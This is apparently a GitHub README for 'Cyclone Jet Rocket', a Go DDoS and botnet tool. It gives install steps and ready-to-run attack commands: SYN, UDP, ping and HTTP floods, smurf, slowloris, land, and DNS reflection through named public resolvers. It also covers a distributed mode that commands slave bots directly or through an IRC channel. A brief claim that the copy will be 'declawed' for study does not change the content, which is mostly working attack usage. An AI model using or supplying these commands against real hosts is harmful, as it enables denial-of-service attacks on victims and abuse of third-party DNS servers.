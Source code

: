 # Cyclone Jet Rocket

Cyclone Jet Rocket is a DDoS tool.  This custom version will be "declawed" and examined for better understanding of how the botnet part functions. ***THIS HAS NOT BEEN TESTED AND NO WARRANTY PROVIDED***

This DDoS tool provides more than 8 kinds of attack methods, each in one module, with different parameters each module. The abstraction of Layers is inspired from [gopacket](https://github.com/google/gopacket), but reimplemented by myself.

## Install

```
go get github.com/crazyboycjr/cyclone-jet-rocket
go build -o $GOPATH/bin/cjr github.com/crazyboycjr/cyclone-jet-rocket
sudo setcap cap_net_raw+ep $GOPATH/bin/cjr
```

## Usage

stand-alone mode
```
cjr --help
cjr --list-module
cjr --module ping-flood help
cjr -m ping-flood --spoof 192.168.1.0/24 --destination 192.168.1.3 --rate 100/ms -c 100000 --size 1472
cjr -m udp-flood -s 192.168.0.0/16 -d 192.168.1.3 -p 80 -p 22 -p 8000:9000 -r nolimit --size 1200
cjr -m smurf --broadcast 192.168.1.255 -d 192.168.1.3 -c 1000 --size 1000
cjr -m syn-flood -s 192.168.2.0/24 -d 192.168.1.3 -p 80 -r 100/s
cjr -m slowloris --url http://www.example.com --request GET -c 100 -r 1/s --timeout 10
cjr -m slowloris -u http://www.example.com -X POST -c 100 -r 10/s -t 20
cjr -m rdns --target 192.168.1.3 --dns 202.120.224.6:53 --dns 61.129.42.6:53 --dns 114.114.114.114:53 -c 1000 -r 10/s
cjr -m rdns --target 192.168.1.3 -f dns_servers.txt -c 1000 -r 10/s --question www.example.com
cjr -m land -d 192.168.1.3 -p 80 -r 10/s
cjr -m http-flood -u http://www.example.com -X POST -c 100 -r 10/s
```

distributed mode
```
cjr --dist help
cjr -D --wait # only slave host use this command to wait for commands
cjr -D --list-bots
cjr -D -m syn-flood -s 10.0.0.0/8 -d 10.123.123.123 -p 80 -r 10/s
cjr -D --stop
cjr -D --uninstall # this command will terminate the process on slave host and remove the executable file
```

For convenience, we can also join the IRC channel to give the order. Something like below
```
irssi
/connect Freenode
/join cjr-random
!list
!module rdns --target 192.168.1.3 --dns 202.120.224.6:53 -c 1000 -r 10/s
!stop
```

## Dependencies

- Go version 1.8 or above
- [go-flags](https://github.com/jessevdk/go-flags)
- [go-ircevent](https://github.com/thoj/go-ircevent)
